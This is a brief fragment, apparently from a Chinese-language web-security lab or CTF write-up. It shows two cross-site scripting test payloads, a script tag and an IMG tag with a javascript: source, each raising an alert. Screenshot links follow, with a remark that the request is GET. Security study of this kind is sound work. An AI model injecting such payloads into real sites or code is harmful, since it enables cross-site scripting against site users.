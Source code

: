 ```(空)
<script>alert(/xss/)</script>

<IMG SRC="javascript.:alert('XSS');">
```

![image-20241218172137113](https://gitee.com/bx33661/image/raw/master/path/image-20241218172137113.png)

可以看到是get

![image-20241218172241670](https://gitee.com/bx33661/image/raw/master/path/image-20241218172241670.png)